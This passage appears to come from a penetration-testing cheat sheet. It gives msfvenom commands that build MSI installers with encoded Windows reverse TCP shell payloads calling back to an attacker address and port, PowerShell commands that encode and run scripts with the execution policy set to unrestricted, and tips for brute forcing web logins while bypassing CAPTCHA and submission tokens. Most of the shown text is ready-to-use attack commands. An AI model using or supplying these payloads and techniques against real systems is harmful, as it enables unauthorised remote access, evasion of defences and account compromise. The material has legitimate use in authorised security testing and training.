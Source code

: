 To generate an `MSI file`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

### PowerShell Encoded Command

To generate a PowerShell encoded command from a PowerShell script, run the following PowerShell command:

```pwsh
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes([IO.File]::ReadAllText($script)))
```

To run the PowerShell encoded command, run the following command from either PowerShell or Command Prompt:

```pwsh
PowerShell -ExecutionPolicy Unrestricted -NoProfile -EncodedCommand $command
```

To decode a PowerShell encoded command, run the following PowerShell command:

```pwsh
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($command))
```

Find out more about PowerShell reverse and bind TCP shells in my project at [ivan-sincek/powershell-reverse-tcp](https://github.com/ivan-sincek/powershell-reverse-tcp).

## 5. Password Cracking

**Google a hash before trying to crack it because you might save yourself a lot of time and trouble.**

Use [Google Dorks](#google-dorks), [Chad](#chad), or [FOCA](#foca) to find and download files, and within the files' metadata, domain usernames to brute force.

**Keep in mind that you might lockout people's accounts.**

Some web forms have CAPTCHA challenge and/or hidden submission token which may prevent you from brute forcing. If that is the case, try to submit a request without the CAPTCHA challenge response and submission token.

You can find a bunch of useful wordlists in [SecLists](#wordlists).

### 5.1 Useful Websites
